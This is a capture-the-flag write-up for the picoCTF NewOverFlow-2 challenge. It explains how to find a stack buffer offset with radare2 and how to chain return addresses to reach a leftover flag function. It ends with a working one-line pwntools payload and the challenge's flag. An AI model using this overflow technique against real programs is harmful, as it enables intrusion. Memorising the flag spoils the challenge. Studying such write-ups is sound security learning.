 # NewOverFlow-2

## Problem

> Okay now lets try mainpulating arguments. program. You can find it in /problems/newoverflow-2_5_13f3d3dc09fc09d6d5db8adfa899a05d on the shell server. Source.

* [Program](./vuln)
* [Source](./vuln.c)

## Solution
1. The challenge author forgot to remove the `flag` function so this is solvable using the same method as [NewOverFlow-1](../NewOverFlow-1/README.md)
1. Find the offset/padding
    1. You can use the method described in [rop64](../Binary\ Exploitation/rop64/README.md) with the `cyclic` and `cyclic_find` or you can use the following
    2. Open vuln in [radare2](https://rada.re/r/) with `r2 ./vuln`
    3. Run `aaaa`
    4. Run `pdf @ sym.vuln` to get `var int local_40h @ rbp-0x40`
    5. The `0x40` is the buffer location so 8 more bytes are needed to get past the "saved ebp register"
    6. So the offset is `0x40+8`
2. Run `afl~flag` in [radare2](https://rada.re/r/) to get the address of `flag` and `afl~main` to get the address of `main`.
3. We can not offset and call the `flag` function directly because that would cause a stack misalignment in 64-bit. So instead we form out payload by doing `padding + main_address + flag_address` instead of just `padding + flag_address` as we would in 32-bit.
4. We can use `p64` from pwntools to convert the hex addresses to little endian. 
5. Payload complete: `python2 -c "from pwn import *; print 'A'*(0x40+8) + p64(0x004008ce) + p64(0x0040084d)" | ./vuln`

### Flag

`picoCTF{r0p_1t_d0nT_st0p_1t_b3358018}`